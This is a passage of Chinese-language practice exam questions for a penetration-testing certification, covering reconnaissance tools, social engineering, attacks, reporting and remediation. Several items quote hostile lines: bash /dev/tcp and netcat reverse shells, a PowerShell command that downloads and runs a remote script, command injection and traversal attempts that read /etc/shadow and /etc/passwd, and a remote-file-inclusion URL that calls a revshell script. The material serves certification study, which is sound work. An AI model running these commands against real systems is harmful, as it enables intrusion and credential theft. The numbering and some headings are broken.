### 54. 你是一名渗透测试员，正在为新客户进行渗透测试。在多次尝试后，你通过自己的指纹通过生物识别传感器获取了未经授权的访问。生物识别设备发生了什么导致你获得了访问？

1. 设备配置更倾向于真阴性 (true negatives)。
2. 设备设置为失败时关闭 (fail closed)。
3. 设备复制了有效用户的指纹。
4. 设备调整得更倾向于假阳性 (false positives)。

### 55. 你是一名渗透测试员，正在为新客户进行渗透测试。你正在使用一个工具进行源码审计。渗透工具错误地识别了一个漏洞。这种发生的情况称为什么？

1. 假阴性 (false negative)
2. 假阳性 (false positive)
3. 真阴性 (true negative)
4. 真阳性 (true positive)


### 56. 你是一名渗透测试员，正在为一个新客户进行测试。你正在对漏洞扫描中发现的漏洞进行优先级排序。你发现的一个漏洞的通用漏洞评分系统 (`CVSS`) 分为 3.6。该漏洞属于哪种风险类别？
1. 低 (Low)
2. 中 (Medium)
3. 高 (High)
4. 严重 (Critical)

### 57. 你是一名渗透测试员，正在为一个新客户进行渗透测试。你正在利用社交媒体收集客户组织内不同员工的信息。你创建了一个员工资料中频繁使用的热门词汇列表。这些信息可以用于什么类型的攻击？
1. 字典攻击
2. 漏洞链攻击
3. Karma 攻击
4. 会话劫持攻击

### 58. 你是一名渗透测试员，正在为一个新客户进行渗透测试。在完成最近的测试后，你发现客户员工正在使用字典密码和季节性密码。控制常用字典词用作密码的最佳方法是什么？
1. 配置密码过滤器。
2. 在尝试三次后禁用账户。
3. 将密码长度从 7 位扩展到 14 位并添加特殊字符。
4. 实施密码历史限制。

### 59. 你是一名渗透测试员，正在为一个新客户进行渗透测试。你正打算为你的渗透活动交叉编译代码，然后计划部署它。为什么要计划交叉编译代码？
1. 为了添加额外的库
2. 为了允许你检查源代码
3. 为了在多个平台上运行
4. 为了在不同的架构上运行

### 60. 你和一位同事正在讨论彩虹表攻击与暴力破解攻击。以下哪些特征可以区分彩虹表攻击和暴力破解攻击？（选择两项。）
1. 彩虹表攻击减少了攻击时的计算周期。
2. 彩虹表必须包含预编译的哈希值。
3. 彩虹表攻击不需要访问哈希后的密码。
4. 彩虹表攻击必须在网络上进行。
5. 彩虹表攻击可以绕过最大失败登录限制。

### 61. 你是一名渗透测试员，正在为一个新客户进行渗透测试。你想针对捕获的密码文件使用彩虹表。彩虹表是如何破解密码的？
1. 通过比较哈希值来识别已知值
2. 通过解密密码
3. 通过反哈希（unhashing）密码
4. 通过对哈希进行暴力测试

### 62. 你和一位同事正在讨论基于消费的物联网 (`IoT`)。IoT 设备通常比为传统桌面式电脑设计的系统安全性低。为什么这个说法是正确的？
1. 设计 IoT 设备的开发者没有那么关注安全性。
2. 管理员很难广泛应用相同的安全标准。
3. IoT 系统通常缺乏某些更稳定解决方案所需的硬件性能。
4. 监管机构对 IoT 系统的限制通常较低。

### 63. 你是一名渗透测试员，正在为一个新客户进行渗透测试。你在范围内的一个 `VLAN` 中发现了一个数据采集与监视系统 (`SCADA`) 设备。哪种操作最可能对该设备产生具有破坏性的结果？
1. 开始 `DNS` 缓存投毒攻击
2. 开始 `Nessus` 漏洞扫描
3. 开始 `SMB` 漏洞利用
4. 开始 `SNMP` 密码暴力破解攻击

### 64. 你和一位同事正在讨论常用的特殊网络设备。以下哪项不是用于控制制造设备和环境系统的常用特殊网络设备？
1. 工业控制系统 (`ICS`)
2. 可编程逻辑控制器 (`PLC`)
3. 实时操作系统 (`RTOS`)
4. 数据采集与监视系统 (`SCADA`)

### 65. 你和一位同事正在讨论社会工程学技术。其中一种技术涉及通过恐吓员工来收集信息。这种社会工程学技术叫什么？
1. 身份冒充 (Impersonation)
2. 审问 (Interrogation)
3. 钓鱼 (Phishing)
4. 短信钓鱼 (Smishing)

### 66. 财务部的 Sue 收到一封来自公司总裁的邮件，显示需要向一个新供应商发放电汇。然而，Sue 和总裁都不知道这个新供应商是谁。总裁声称他从未发送过请求转账的邮件。攻击者正试图尝试哪种动机心理技术？
1. 权威原则
2. 恐惧原则
3. 喜好原则
4. 稀缺性原则
5. 社会认同原则

### 67. 你的帮助台团队一名成员接到一个自称是员工的来电话。此人请求帮助以解锁一个被锁定的账户。帮助台成员在授予访问之前要求身份证明。拨打者试图执行哪种攻击？
1. 身份冒充 (Impersonation)
2. 审问 (Interrogation)
3. 钓鱼 (Phishing)
4. 窥肩偷窥 (Shoulder surfing)

### 68. 一名渗透测试员使用 `SET` 复制了公司的云托管 Web 邮件门户，然后发送邮件试图获取总裁的登录凭据。这是什么类型攻击的示例？
1. 启发攻击 (Elicitation attack)
2. 身份冒充攻击
3. 鱼叉式钓鱼 (Spear phishing attack)
4. 捕鲸者攻击 (Whaling attack)

### 69. 你的组织总裁报告说，他接到大量来自帮助台部门的电话。这个人要求总裁验证其网络身份凭据，因为他的电脑正在网络上广播。此人试图尝试哪种攻击？
1. 身份冒充 (Impersonation)
2. 审问 (Interrogation)
3. 电话钓鱼 (Vishing)
4. 捕鲸者攻击 (Whaling)

### 70. 你是一名渗透测试员，正在为一个新客户进行测试。你成功获取了某笔记本电脑的访问权限。为了从笔记本电脑中获取凭据，你的下一步应该是什么？
1. 使用暴力破解获取用户密码。
2. 执行 `LLMNR/NETBIOS-NS` 查询。
3. 利用 `BeEF` 框架捕获凭据。
4. 执行 `ARP` 欺骗投毒。

### 71. 你是一名渗透测试员，正在为一个新客户进行测试。你正在对客户网络上的交换机进行 `ARP` 欺骗。为了获取尽可能的信息，你应该欺骗哪一个 `MAC` 地址？
1. 客户的 MAC 地址
2. 域控制器的 MAC 地址
3. Web 服务器的 MAC 地址
4. 网关的 MAC 地址

### 72. 你和一位同事正在讨论可能发生的不同类型的攻击。其中一种攻击是双方之间的通信被拦截并转发，且双方都不知道发生过拦截。你们正在讨论的是哪种攻击？
1. 中间人攻击 (Man-in-the-middle attack)
2. 鱼叉式钓鱼 (Spear phishing attack)
3. 传递访问攻击 (Transitive access attack)
4. URL 劫持攻击 (URL hijacking attack)

### 73. 你是一名渗透测试员，将为新客户进行测试。客户要求你进行无线渗透测试。在测试开始之前，你最需要哪些范围目标信息？
1. 客户使用的无线设备的频段和频率
2. 客户首选的无线接入点供应商
3. 客户拥有的无线设备数量


## 4. 待测试的物理位置和网络 ESSID

## 74. 你是一个渗透测试员，正在为一家新客户进行测试。你已成功部署了一个恶意双孪生（evil twin），并开始看到一些客户的流量。为了捕获客户的所有未加密 Web 流量，下一步想要采取的操作是什么？

1. 收集用户凭据以解密流量。
2. 通过冒充受信任的 `Cas` 实施证书机构 (`CA`)攻击。
3. 实施 HTTP 降级攻击。
4. 执行中间人 (`MITM`) 攻击。

## 75. 你和同事正在讨论攻击者可能使用的不同攻击类型。其中一种攻击是在目标通过蓝牙发送未请求的消息时实施的。你们正在讨论的是哪种攻击？

1. 蓝牙窃取攻击（bluesnarfing）
2. 蓝牙狙击攻击（bluesniping）
3. 蓝牙劫持攻击（bluejacking）
4. 战争粉笔攻击（war chalking）

## 76. 你是一个渗透测试员，正在为一家新客户进行测试。你在服务器上发现了以下日志条目：

* `Nov 19 2018 00:21:15 httpd[2342]: GET`
* `/app2/prod/proc/process.php?input=change;cd%20../../../etc;cat%20shadow`
* 尝试的是哪种攻击？

1. 缓冲区溢出
2. 命令注入
3. 跨站脚本
4. 密码攻击

## 77. 你和同事正在讨论可能发生的不同攻击类型。其中一种攻击是客户端攻击，用于通过 浏览器使用 JavaScript 代码操纵 HTML `iframe`。你们正在讨论的是哪种攻击？

1. 缓冲区溢出
2. 跨站脚本 (`XSS`)
3. 中间人 (`MITM`)
4. SQL 注入 (`SQLi`)

## 78. 你是一个渗透测试员，正在为一家新客户进行测试。你在客户的网域控制器中发现了一个漏洞。该漏洞是网域控制器上启用了空会话（null sessions）。可以执行哪种攻击来利用该漏洞？

1. 攻击者可以尝试通过哈希值传递（pass the hash）来中凭据。
2. 攻击者可以尝试通过破解密码来登录主机。
3. 攻击者可以尝试通过 RID 循环（RID cycling）来枚举用户和组。
4. 攻击者可以尝试会话劫持来冒充系统账户。

## 79. 你是一个渗透测试员，刚刚完成了对一家新客户的测试。你揭露了一个遗留 Web 应用程序容易受到 SQL 注入攻击。客户表示，修复该漏洞需要进行架构调整，而管理层不想让当前应用程序发生任何风险。以下哪种条件可以在提供低成本、短期的解决方案的同时，最大限度地降低 SQL 注入的风险？（选择两项。）

1. 从存储过程中识别并删除动态 SQL。
2. 从代码中识别并删除内联 SQL 语句。
3. 识别并对所有输入进行过滤。
4. 识别恶意输入的来源并拦截 IP 地址。
5. 针对 SQL 语句，使用黑名单验证。
6. 针对 SQL 语句，使用白名单验证。

## 80. 你是一个渗透测试员，正在为一家新客户进行测试。在查看 Web 应用程序的日志时，你发现了一个疑请求。该请求显示以下 URL：`http://www.mycompany.com/about.php?i=../../../etc/passwd`。该请求试图做什么？

1. 请求正尝试进行跨站脚本攻击。
2. 请求正尝试目录遍历。
3. 请求正尝试远程文件包含。
4. 请求正尝试用户枚举。

# 第 7 章

## 模拟考试 2

1. 你是一个渗透测试员，正在为一家新客户进行测试。客户希望你对一个新的 Web 应用程序的可用性进行审查。测试员应该利用哪种类型的攻击？

1. TCP SYN 洪水攻击
2. SQL 注入
3. 跨站脚本 (`XSS`)
4. XMAS 扫描

2. 你是一个渗透测试员，正在为一家新客户进行测试。你正在对客户的 Web 应用程序进行扫描。在审查扫描结果时，以下哪个漏洞最关键并应该优先考虑进行利用？

1. 点击劫持（Clickjacking）
2. 过期证书
3. 路径泄露（Path disclosure）
4. 存储型跨站脚本 (`XSS`)

3. 你是一个渗透测试员，正在为一家新客户进行测试。客户要求你对一个 Web 应用程序进行测试。你发现用户登录过程使用 HTTP GET 方法发送表单字段数据。为了减少暴露敏感数据的风险，HTML 表单应该使用哪种方法发送？

1. HTTP OPTIONS 方法
2. HTTP POST 方法
3. HTTP PUT 方法
4. HTTP TRACE 方法

4. 你是一个渗透测试员，正在为一家新客户进行测试。你和客户正在讨论竞态条件（race condition）。以下哪项是竞态条件的示例？

1. 跨站请求伪造 (`XSRF`)
2. 硬编码凭据
3. SQL 注入 (`SQLi`)
4. 检查与使用之间的时间不符 (`TOCTOU`)

5. 你是一个渗透测试员，正在为一家新客户进行测试。你正准备对客户的 Web 应用程序启动会话劫持攻击。获取哪些信息重要以确保你的攻击成功？

1. 会话 Cookie（session cookie）
2. 会话票（session ticket）
3. 用户名
4. 用户密码

6. 最近许多员工成为了网络钓鱼攻击的受害者。他们收到一封看起来像是公司总裁发送的邮件。邮件声称如果不点击邮件中的链接将受到纪律处。攻击者使用了哪种社会工程原理？

1. 权威性
2. 恐惧
3. 稀缺性
4. 社交证明

7. 你是一个渗透测试员，正在为一家新客户进行测试。你在被攻破的机器上运行以下命令：

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
你在执行什么操作？

1. 你正在创建一个沙箱。
2. 你正在捕获凭据。
3. 你正在删除 Bash 历史。
4. 你正在升级 Shell。

8. 你是一个渗透测试员，正在为一家新客户进行测试。在测试客户网络时，你发现了几个未引号的服务路径（unquoted service paths）。如何利用这些漏洞？

1. 通过尝试破解服务账户密码
2. 通过尝试 DLL 劫持攻击
3. 通过尝试定位弱的文件和文件夹权限
4. 通过尝试权限提升攻击

9. 最近，一位用户注意到他们的电脑在过去一周内运行异常。他们经历了输入延迟，系统运行缓慢。用户发现了一些似乎包含其电子邮件片段和一些即时聊天内容的文本文件。用户运行了病毒扫描，但没有检测到任何东西。哪种恶意软件可能影响这台机器？

1. 后门
2. 键盘记录器
3. 勒索软件
4. Rootkit

10. 你是一个渗透测试员，正在为一家新客户进行测试。你被要求通过进入公司办公室进行访问来评估客户的物理安全性。你正在寻找一种可以在工作时间和非工作时间进入建筑的方法。你认为尝试的最有效方法是什么？

1. 尝试克隆令牌（badge cloning）。
2. 尝试开锁。


### 3. 尝试绕过锁。

### 4. 尝试搭电（Piggybacking）。

### 11. 你是一名渗透测试员，正在为一个新客户进行测试。你正尝试进行物理安全评估，并希望在测试期间使用“门下工具”（under-the-door-tool）。你应该使用以下哪种入侵技术？
1. 触发出口传感器
2. 弹跳开锁（Lock bumping）
3. 绕过锁
4. 开启锁（Lock picking）

### 12. 你和一位同事正在讨论即将进行的物理安全评估。讨论转到了门禁（mantraps）。门禁利用了以下哪种类型的物理安全攻击？
1. 冒充
2. 开启锁
3. 搭电（Piggybacking）
4. 窥视（肩密码

### 13. 你是一名渗透测试员，正在为一个新客户完成测试。在任务结束时，你运行了 `chkconfig --del <servicename>` 命令。你为什么要运行这个命令？
1. 为了检查持久化
2. 为了启用持久化
3. 为了移除持久化
4. 为了报告持久化

### 14. 你是一名渗透测试员，正在为一个新客户完成测试。你成功利用了一个应用程序漏洞，现在需要删除 Linux 会话中的命令历史。哪条命令会删除命令历史？
1. `$ cat history /clear`
2. `$ history -c`
3. `$ history --remove`
4. `$ rm -f ./history`

### 15. 你和一位同事正在讨论执行渗透测试时可以使用的不同工具。以下哪种工具可以在 Windows 系统上使用，建立到远程 Windows 系统控制台的命令行访问，类似于旧的 Telnet 客户端？
1. PsExec
2. 远程登录 (Rlogin)
3. 远程外 (RSH)
4. 虚拟网络计算 (VNC)

### 16. 你和一位同事正在讨论执行渗透测试时可以使用的不同工具。以下哪种工具允许进行远程管理和数据收集，并安装在所有 Windows 系统上？
1. Samba (SMB)
2. 虚拟网络计算 (VNC)
3. Windows 管理体系规范 (WMI)
4. Windows 远程桌面 (RDP)

### 17. 你是一名渗透测试员，正在为一个新客户进行测试。你想要使用 nmap 扫描远程系统。你使用了以下命令：
```
nmap 142.78.32.0/24
```
你将扫描多少个 TCP 端口？
1. 256
2. 1,000
3. 1,024
4. 65,535

### 18. 你是一名渗透测试员，正在为一个新客户进行测试。你在一台计算机上运行了以下 nmap 扫描：`nmap -sV 192.168.10.5`。客户已表示他们已经在环境中禁用了 Telnet。然而，nmap 扫描结果显示端口 22 已关闭，而端口 23 为 SSH 开放。这可能是什么导致了这种情况？
1. 组织没有禁用 Telnet。
2. nmap 结果包含对端口 23 的误报。
3. 服务运行在非标准端口上。
4. 端口 22 被过滤了。

### 19. 你是一名渗透测试员，正在为一个新客户进行测试。你计划使用 hping 命令向远程系统发送流量。如果你使用脚本 `hping remoteclient.com -S -V -p 80`，远程系统将看到什么类型的流量？
1. 往 TCP 端口 80 的 HTTP 流量
2. 往 TCP 端口 80 的 HTTPS 流量
3. 往 TCP 端口 80 的 TCP SYNs
4. 往 TCP 端口 80 的 TCP 三次握手

### 20. 你是一名渗透测试员，正在为一个新客户进行测试。你计划使用 nmap。如果你想扫描标识设备的所有 TCP 端口，必须使用哪个 nmap 选项？
1. `-p- 1-65535`
2. `-p ALX,`
3. `-p 1-65544`
4. `-port 1-65534`

### 21. 你是一名渗透测试员，正在为一个新客户进行测试。你计划使用公司提供的包含所有 IP 地址列表的文本文件通过 nmap 进行操作系统指纹识别。你需要在代码中包含哪些选项来使用该文本文件进行指纹识别？（选择两个）
1. `-iL`
2. `-O`
3. `-oN`
4. `-oX`
5. `-sS`
6. `-sV`

### 22. 你是一名渗透测试员，正在为一个新客户进行测试。你想对客户的外部域名进行被动侦察。你使用的最佳选择是什么？
1. CeWL
2. OpenVAS
3. Peach
4. Shodan

### 23. 你是一名渗透测试员，正在为一个新客户进行测试。你想对客户的外部域名进行被动侦察。你使用的最佳选择是什么？（选择两个）
1. Cain and Abel
2. Netcat
3. Nmap
4. Shodan
5. Tcpdump / Wireshark

### 24. 你是一名渗透测试员，正在为一个新客户进行测试。你想对客户的外部域名进行被动侦察。你使用的最佳选择是什么？
1. CeWL
2. OpenVAS
3. Peach
4. Shodan


### 33. 你是一名渗透测试员，正在为一个新客户进行测试。你想在测试中部署一个恶意网站，以利用该客户员工的浏览器。该测试可以利用哪种工具？

1. Browser Exploitation Framework (BeEF)
2. Metasploit
3. Open Web Application Security Project (OWASP)
4. Social Engineer Toolkit (SET)

### 34. 你是一名渗透测试员，正在为一个新客户进行测试。你计划使用客户的网站创建一个包含关于该客户的常用单词和口号的自定义字典（wordlist）。你可以利用哪种工具来帮助构建自定义字典？

1. `CeWL`
2. `Hashcat`
3. `Hydra`
4. `Medusa`

### 35. 你是一名渗透测试员，正在为一个新客户进行测试。在内部渗透测试期间，观察到网络中有多个组播和广播名称解析请求在传输。你想伪装网络资源并收集身份验证请求。你应该使用哪种工具？

1. `Ettercap`
2. `Medusa`
3. `Tcpdump`
4. `Responder`

### 36. 你是一名渗透测试员，正在为一个新客户进行测试。你想通过搜索查看客户连接到互联网的计算机和设备。你希望能够各种过滤器。你可以使用哪种工具来完成这一目标？

1. `Censys`
2. `Shodan`
3. `TheHarvester`
4. `Whois`

### 37. 你是一名渗透测试员，正在为一个新客户进行测试。你想通过搜索查看客户的计算机和设备是否连接到互联网，并查看它们的 geoIP 信息是否可用。你可以使用哪种工具来实现这一目标？

1. `Censys`
2. `Shodan`
3. `TheHarvester`
4. `Whois`

### 38. 你是一名渗透测试员，正在为一个新客户进行测试。你正在对特定的客户数据库服务器进行测试。你想检测该服务器上的任何漏洞。哪种工具能最好帮助你？

1. `Nessus`
2. `Nikto`
3. `Sqlmap`
4. `OpenVAS`

### 39. 你是一名渗透测试员，正在为一个新客户进行测试。在灰盒渗透测试期间，你想设置一个反向 shell（reverse shell）漏洞，让目标网络上的受控系统“回家”连接在你笔记本电脑上的监听器，并允许你远程控制该受控系统。你可以使用哪种远程访问工具？

1. `Wireshark`
2. `Impacket`
3. `Netcat`
4. `Responder`

### 40. 你是一名渗透测试员，正在为一个新客户进行测试。在灰盒渗透测试期间，你想设置一个绑定 shell（bind shell）漏洞，在客户网络上的一个受控系统上设置一个监听器。你可以使用哪些远程访问工具来执行？（选择两项。）

1. `Empire`
2. `Ncat`
3. `Netcat`
4. `Powersploit`
5. `Searchsploit`

### 41. 你是一名渗透测试员，正在为一个新客户进行测试。在灰盒渗透测试期间，你想对客户域控制器的查询进行投毒，以将客户请求重定向到你的笔记本电脑，并捕获用户名和哈希后的密码。你可以使用哪种工具？

1. `Empire`
2. `Impacket`
3. `Responder`
4. `Searchsploit`

### 42. 你是一名渗透测试员，正在为一个新客户进行测试。你正在编写以下 Python 代码：

```python
if 1 == 1:
     print("howdy")
elif 3 == 3:
     print("howdy")
else:
     print("howdy")
```

这段代码会打印多少次 `howdy` 单词？

1. 0
2. 1
3. 2
4. 3

### 43. 你是一名渗透测试员，正在为一个新客户进行测试。你正在分析一个脚本，以确定为什么脚本没有返回预期的正确结果。预期结果应该是 True。

```bash
root:~# cat ./myscript.sh
#!/bin/bash
source=10
let dest=5+5
if [ 'source' = 'dest' ]; then
   echo "True"
else
   echo "False"
fi
#End of File
root:~# ./myscript.sh
False
```

通过检查脚本，你应该如何纠正错误以返回正确结果？（选择两项。）

1. 将 `"fi"` 改为 `"EndIf"`。
2. 移除 `dest=5+5` 前的 `"let"`。
3. 将 `=` 改为 `-eq`。
4. 将 `'source'` 和 `'dest'` 改为 `'Ssource'` 和 `'Sdest'`。
5. 将 `"else"` 改为 `"elif"`。

### 44. 你是一名渗透测试员，正在为一个新客户进行测试。你想使用 PowerShell 脚本创建一个数组。你会使用哪种行代码？

1. `$ports = 20, 25, 80, 443`
2. `ports = (20,25, 80, 443)`
3. `ports = [20,25,80,443]`
4. `$ports={20,25,80,443}`

### 45. 你是一名渗透测试员，正在为一个新客户进行测试。你正在使用 PowerShell 进行测试。你打算在你的系统上运行以下命令：

* `bash -i >& /dev/tcp/10.0.0.1/443`

为了让该命令生效，需要在客户端上执行什么额外命令？

1. `nc -nvlp 443`
2. `nc 10.0.0.1 443`
3. `nc -w3 443`
4. `nc 443`

### 46. 你是一名渗透测试员，正在为新客户进行测试。你正在使用 PowerShell 进行测试。你使用了以下命令：

```powershell
powershell.exe IEX (New-Object Net.Webclient).downloadstring("http://site/ps1")
```

* 此命令执行了什么操作？

1. 它执行了一个远程脚本。
2. 它整合了一个对象。
3. 它运行了一个编码命令。
4. 它设置了执行策略。

### 47. 你是一名渗透测试员，正在为一个新客户进行测试。你通过端口 443 访问了一个限制系统。你想从客户端创建一个反向 shell。你可能会使用哪种方法？

1. `bash -i >& /dev/tcp/DESTINATIONIP/443`
2. `nc -e /bin/sh SOURCEIP 443`
3. `perl -e 'use SOCKET'; $i='SOURCEIP>'; $p='443;`
4. `ssh superadmin@DESTINATIONIP -p 443`

### 48. 你是一名渗透测试员，正在为一个新客户进行测试。在渗透测试期间，在受控机器的历史文件中发现了以下代码：

```bash
bin/bash -i >& /dev/tcp/192.168.0.10/80 0>&1
```

* 什么最描述了这个命令的功能？

1. 执行了端口扫描。
2. 获取了服务器 banner。
3. 将电字终端（TTY）重定向到远程系统。
4. 删除了给定 IP 的错误日志。

### 49. 你是一名渗透测试员，正在完成新客户的测试。测试完成后，你正在对执行摘要中的发现和建议进行排序。以下考虑因素中哪一个对你的客户最有益？

1. 补丁和其他修复措施的可用性
2. 识别出的漏洞的利用难度
3. 客户组织的风险承受能力
4. 完成每个步骤所需的时间

### 50. 你是一名安全分析师，刚刚为一个新客户完成了渗透测试。你正在编写执行摘要。在编写执行摘要时，哪项内容是不合适的？

1. 你应该包含所有发现和漏洞的描述。
2. 你应该包含所有发现漏洞的风险声明。
3. 你应该确保使用通俗易懂的语言。
4. 你应该包含与测试相关的所有技术细节。


### 51. 你是一名渗透测试员，刚刚完成了一个新客户的测试。一份详细的渗透测试报告已提交给安全分析师。渗透测试是针对客户的 DMZ 环境进行的。报告中有一项发现：通用漏洞评分系统 (`CVSS`) 的基础分值为 `1.0`。要利用此漏洞，需要什么程度的难度？

1. 非常困难，因为周边界系统通常位于防火墙之后
2. 相当困难，因为利用该漏洞需要强大的处理能力
3. 显而易见，因为利用这些发现仅需极少的精力
4. 不可能，因为外部主机已经过加固，以防止攻击

### 52. 你是一名渗透测试员，正在为一个新客户计划一次测试。你正在编写一份概述运营业务整体风险水平的报告。你应该在报告的哪个部分包含这些信息？

1. 附录 (Appendices)
2. 执行摘要 (Executive summary)
3. 正文 (Main body)
4. 技术总结 (Technical summary)

### 53. 你是一名安全分析师，正在审查最近针对内网服务进行的内部漏洞扫描结果。扫描报告显示存在一个严重漏洞。报告列出了以下内容：

* 标题：Web 服务器 `Remote Command Execution`（远程命令执行）漏洞
* 等级：`Critical`（严重）（`CVSS` `10.0`
* 威胁者：Web 服务器的任何远程用户
* 置信度：确定
* 建议：应用厂商补丁
* **你首先应该做什么？**

1. 评定风险等级并说明其对组织的影响。
2. 利用服务器以确定扫描是否指示了虚假确认。
3. 通知高层有关该漏洞。
4. 组织关键的周期外补丁。

### 54. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在根据测试结果创建一份发现的书面报告。你应该在报告的哪个部分为读者提供所执行测试和发现结果的深度大纲？

1. 在执行摘要（Executive Summary）部分
2. 在发现与修复（Findings and Remediation）部分
3. 在方法论（Methodology）部分
4. 在指标与衡量（Metrics and Measures）部分

### 55. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在根据测试结果创建一份发现的书面报告。根据测试结果，你列出份认为客户应该关注的建议。你应该将这些建议放在报告的哪个部分？

1. 在结论（Conclusion）部分
2. 在执行摘要（Executive Summary）部分
3. 在发现与修复（Findings and Remediation）部分
4. 在方法论（Methodology）部分

### 56. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在进行交付后清理。在交付后清理阶段会执行哪些活动？（选择三个）

1. 修复漏洞
2. 移除所有使用的工具
3. 移除 shell（后）
4. 移除测试员创建的凭据

### 57. 你是一名渗透测试员，刚刚完成了一个新客户的测试。在测试后的清理过程中，发现客户没有必要的数据擦除工具。随后将所需的工具分发给了需要它们的技术人员。你应该在哪个阶段重新考虑这个问题？

1. 在教训阶段（lessons learned phase）
2. 在缓解阶段（mitigation phase）
3. 在准备阶段（preparation phase）
4. 在报告阶段（reporting phase）

### 58. 你是一名渗透测试员，正在为一个新客户进行测试。你几乎已经完成了测试，想确保交付后清理过程没有问题。在整个测试阶段，你应该做什么以确保交付工作顺畅进行？

1. 你应该创建后门，以便你稍后访问它们。
2. 你应该仔细记录你在测试期间所做的一切。
3. 你应该擦除你在利用期间创建的任何日志条目。
4. 你应该创建所有系统和设备的镜像，以便将它们恢复到测试前的状态。

### 59. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在进行交付后清理过程。在交付后清理过程中，你应该做什么？（选择两个）

1. 你想要确保移除你在测试期间创建的任何 shell 会话。
2. 你想要确保向客户隐藏你在测试期间所做的一切工作。
3. 你想要确保记录你在测试期间所做的一切工作。
4. 你想要隐藏你在测试后清理期间所做的一切。

### 60. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在与客户会面讨论渗透测试。会议结束时，你要求客户签署一份协议，声明你已根据合同履行了职责。这称为什么？

1. 发现证明（Attestation of findings）
2. 客户验收（Client acceptance）
3. 后续行动/重测（Follow-up actions/retest）
4. 教训（Lessons learned）

### 61. 你是一名渗透测试员，刚刚完成了一个新客户的测试。你正在与客户会面讨论渗透测试。在会议期间，你向客户提供一份文件，说明你已进行测试，且客户符合其某份政府合同中规定的规则和法规。这称为什么？

1. 发现证明（Attestation of findings）
2. 客户验收（Client acceptance）
3. 后续行动/重测（Follow-up actions/retest）
4. 教训（Lessons learned）

### 62. 组织 IT 部门的初级技术人员对公司 Web 应用程序运行渗透测试。测试期间，技术人员发现该应用程序可以披露一个 `SQL` 表，其中包含所有用户账户和密码信息。初级技术人员应该如何通知高层管理？

1. 技术人员应该使用这些信息连接到 `SQL` 服务器并更改几个非关键账户的密码，向管理层演示概念。
2. 技术人员应该使用包含建议和截图的执行摘要记录发现。
3. 技术人员应该通知开发人员该发现，并建议在 Web 应用程序的 `SQL` 查询字符串上强制输入验证。
4. 技术人员应该要求管理层创建征求书 (`RFP`)，以与专业的渗透测试公司开始正式合作。

### 63. 你和同事正在讨论一种场景：组织实施邮件内容过滤，以阻止看似来自内部来源但未经适当身份验证的入站邮件。他们还可能过滤掉包含高风险关键词或似乎来自已知恶意源的消息。这属于哪种常见的修复活动类别？

1. 衡量（Measurement）
2. 人员（People）
3. 流程（Process）
4. 技术（Technology）

### 64. 你和同事正在讨论多因素认证。你的同事要求你提供一个多因素认证的例子。你告诉了同事什么？

1. 多因素认证是使用生物指纹和语音识别
2. 多因素认证是使用智能卡和密码 (PIN)
3. 多因素认证是使用视网膜扫描和语音识别
4. 多因素认证是使用用户名、密码 (PIN) 和员工 ID 号


## 65. 你和一位同事正在讨论不同的多因素身份验证类别。一个例子是，员工使用一个密钥（key fob），该密钥包含生成登录时必须使用的一次性密码的令牌。这种场景属于哪种多因素身份验证类别？

1. 你特征（Something you are）
2. 你拥有的（Something you have）
3. 你所知道的（Something you know）
4. 你需要的（Something you need）

## 66. 你是一名渗透测试员，正在为一个新客户进行测试。你注意到公共 Web 服务器上有几个高位端口处于监听状态。客户表示他们仅将应用程序使用 `443` 端口。你应该向客户建议什么？

1. 建议他们禁用不需要的服务
2. 建议他们将 `443` 端口过滤到特定的 IP 地址
3. 建议他们实施 Web 应用防火墙（WAF）
4. 建议他们将迁移到另一个端口

## 67. 你是一名渗透测试员，正在为一个新客户进行测试。你能够在文本框中输入 SQL 注入命令并获取存储在数据库中的信息。你应该向客户建议什么措施来缓解该漏洞？

1. 建议他们实施输入规范化（input normalization）
2. 建议他们安装基于主机的入侵检测系统
3. 建议他们进行系统加固（system hardening）
4. 建议他们对登录凭据进行随机化

## 68. 你是一名渗透测试员，正在为一个新客户进行测试。客户要求你测试几个 Web 服务器的安全性。通过利用与 `DNS`、`FTP`、`IMAP`、`POP`、`SMTP` 和 `Telnet` 使用相关的漏洞，你获得了几个服务器的 `root/administrator` 权限。关于如何更好地保护他们的 Web 服务器，你应该建议客户？

1. 他们应该禁用任何不需要的服务。
2. 他们应该增加应用程序事件日志。
3. 他们应该使用蜜罐（honeypot）。
4. 他们应该使用传输层安全（TLS）。

## 69. 你是一名渗透测试员，刚刚完成了对新客户的测试。你正在审查结果。你注意到客户在所有系统上使用相同的本地管理员密码。你可以使用哪种工具来帮助解决这个问题？

1. 本地管理员密码解决方案 (`LAPS`)
2. 限制管理员密码辅助 (`LAPA`)
3. Nessus
4. Metasploit

## 70. 你是一名渗透测试员，正在为一个新客户进行测试。在测试期间，你成功攻破了一个工作站。攻破后，你能够在极少障碍的情况下在域内进行横向移动。你应该在报告中向客户建议哪些迁移策略？（选择三项）

1. 建议他们应用额外的网络访问控制
2. 建议对所有登录都要求多因素身份验证
3. 建议对每台机器的本地管理员凭据进行随机化
4. 建议对本地管理员的禁用远程登录
5. 建议他们增加最小密码复杂度要求
6. 建议他们将每个主机放入单独的虚拟局域网 (`VLAN`) 中
7. 建议在每台工作站上启用全磁盘加密

## 71. 你是一名渗透测试员，正在为一个新客户进行测试。你正在监控 Web 应用防火墙 (`WAF`) 日志，发现针对以下 URL 有了一次成功的攻击：`https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php`。

应该采取哪些补救措施来防止此类攻击再次发生？

1. 阻止 URL 重定向。
2. 对参数进行双 URL 编码。
3. 从应用程序停止外部调用。
4. 实施黑名单。

## 72. 你是一名渗透测试员，正在为一个新客户进行测试。在尝试钓鱼时，你从 IT 部门成员处获取了初始 VPN 用户域凭据。然后你通过 VPN 获取了哈希，并使用字典攻击轻松地破解了它们。你应该向客户建议哪些补救措施？（选择三项）

1. 建议增加密码复杂度要求。
2. 建议对远程访问实施双因素身份验证。
3. 建议安装入侵防御系统（IPS）。
4. 建议安装安全信息事件监控解决方案（SIEM）。
5. 建议防止 IT 部门成员以管理员身份交互式登录。
6. 建议要求所有员工参加安全意识培训。
7. 建议升级 VPN 解决方案使用的密码套。

